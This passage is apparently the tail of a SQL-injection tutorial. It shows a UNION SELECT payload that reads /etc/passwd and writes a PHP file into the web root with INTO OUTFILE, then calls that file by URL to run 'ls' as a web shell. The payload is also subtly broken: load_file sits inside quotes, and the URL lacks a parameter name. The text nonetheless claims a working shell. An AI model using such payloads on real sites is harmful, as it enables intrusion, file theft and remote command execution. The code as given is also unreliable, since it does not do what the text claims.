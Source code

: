 `union+select+1,'load_file(‘/etc/passwd’)',3+INTO+OUTFILE+'ruta/nombre.php'+--+`

Finally, to use it we go to the following route:

`http://vulnerable.com/nombre.php?=ls`

As you can see, we are using the shell that we inject to execute the commands.

To see it a little more graphically, you can see it from here: https://twitter.com/_Y000_/status/1249877772979384320

------------------------------------------- 


Thank you very much for taking the time! If you have any suggestions, you can gladly tell me! 
